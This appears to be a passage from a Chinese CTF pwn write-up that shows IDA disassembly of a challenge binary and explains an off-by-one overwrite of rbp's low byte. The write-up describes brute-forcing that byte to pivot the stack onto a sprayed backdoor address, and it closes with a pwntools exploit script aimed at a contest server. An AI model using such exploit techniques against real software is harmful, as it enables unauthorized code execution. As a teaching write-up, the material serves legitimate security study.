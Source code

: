 ```assembly
.text:000000000040071F ; =============== S U B R O U T I N E =======================================
.text:000000000040071F
.text:000000000040071F ; Attributes: bp-based frame
.text:000000000040071F
.text:000000000040071F ; ssize_t one()
.text:000000000040071F                 public one
.text:000000000040071F one             proc near               ; CODE XREF: main+13↓p
.text:000000000040071F ; __unwind {
.text:000000000040071F                 push    rbp
.text:0000000000400720                 mov     rbp, rsp
.text:0000000000400723                 lea     rdi, aOneBytesOffByO ; "one bytes,off-by-one!!!!!"
.text:000000000040072A                 call    _puts
.text:000000000040072F                 mov     eax, 0
.text:0000000000400734                 call    vuln
.text:0000000000400739                 mov     edx, 3          ; n
.text:000000000040073E                 lea     rsi, s          ; buf
.text:0000000000400745                 mov     edi, 1          ; fd
.text:000000000040074A                 call    _write
.text:000000000040074F                 nop
.text:0000000000400750                 leave
.text:0000000000400751                 retn
.text:0000000000400751 ; } // starts at 40071F
.text:0000000000400751 one             endp
.text:0000000000400751
```

​	没错,在`vuln`函数返回后,就不存在其他可以影响`rbp`指针的东西了.所以我们修改rbp,可以达到类似栈迁移的效果.我们可以将栈迁移到我们输入中构造好的后门函数地址,这样第二个ret就会将程序的执行流修改过去.

​	但是问题依旧存在:

​		1:我们不知道栈的精确地址,也就是说我们无法让`rbp`正好`leave`到我们的`backdoor-0x8`处

​		2:即使`rbp`本身不会改变,但在程序执行的过程中,一部分栈上内容可能会被覆盖.

​	也就是说,假如我们往payload里写了一个`backdoor`地址,然后随便填了个数字写进`rbp`的低位,那么我们想`getshell`就无异于玩二次元抽卡手游.不过这时,经常玩这类游戏的师傅肯定已经知道了,在这类游戏中,想要得到想要的活动角色,有以下两个方案:

​		1:凭借强大的运气(或许还有某人的若干年阳寿)抽到他/她/它(?)

​		2:氪穿卡池

​	既然如此,事情就一下子简单了.由于我们并不是真的在玩二次元抽卡手游,我们完全可以双管齐下:

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
r=remote("contest.ctf.nefu.edu.cn",33826)
#r=process("./pwn")
#gdb.attach(r)
#pause()

bdoor_add=0x400752
r.recvuntil("e!!!!!")
payload=p64(bdoor_add)*(0xa*2)+b'\xa0'
r.send(payload)
r.interactive()
```
